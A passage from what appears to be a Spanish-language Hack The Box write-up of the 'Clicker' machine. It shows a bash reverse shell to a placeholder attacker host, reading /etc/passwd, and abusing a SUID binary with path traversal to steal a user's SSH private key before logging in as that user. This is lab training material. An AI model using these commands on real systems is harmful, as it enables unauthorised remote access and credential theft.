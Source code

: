 ```bash
bash -c "bash -i >%26 /dev/tcp/ipatacante/PORT 0>%261"
```

![](/assets/images/htb-writeup-clicker/Pasted image 20231104142039.png)

Esto nos otorgará una **Reverse Shell** en nuestra máquina local, como vemos:

![](/assets/images/htb-writeup-clicker/Pasted image 20231104142116.png)

Tan sólo deberíamos darle tratamiento a la TTY, y tendríamos una consola en la máquina víctima totalmente funcional, sí no sabes como realizar un tratamiento a la TTY, te recomiendo leer este [((CLICKEAR AQUÍ))](https://4uli.github.io/tratamiento-tty/)

__________

# Escalada de Privilegio #1 

Estamos como el usuario www-data qué es el que corre el servicio WEB, pero nos interesa escalar privilegios, para ello conocemos los usuarios válidos del sistema.

```
cat /etc/passwd
```

![](/assets/images/htb-writeup-clicker/Pasted image 20231104142411.png)

Vemos qué existe un usuario **Jack**, indagando en el sistema en el directorio "**/opt/**" encontraríamos un binario el cual tenemos permiso para ejecutar, también un README el cual nos dice como ejecutarlo.

![[Pasted image 20231104142546.png]]

Ejecutándolo de la siguiente manera, vemos qué podemos leer archivos:

![](/assets/images/htb-writeup-clicker/Pasted image 20231104142728.png)

Debido a que tiene permisos **SUID** y el propietario es **Jack**, podríamos aprovecharnos de esto para tratar de leer la clave privada.

```bash
/execute_query 5 ../.ssh/id_rsa
```

![](/assets/images/htb-writeup-clicker/Pasted image 20231104142943.png)

Como vemos hemos obtenido la clave privada, por lo qué procedemos a copiárnosla en local para meterla en un archivo, y conectarnos a través de SSH al usuario Jack.

Primero debemos darle permisos adecuado al archivo donde esté la clave, para posterior conectarnos:

```bash
chmod 600 id_rsa
ssh -i id_rsa jack@10.10.11.232
```
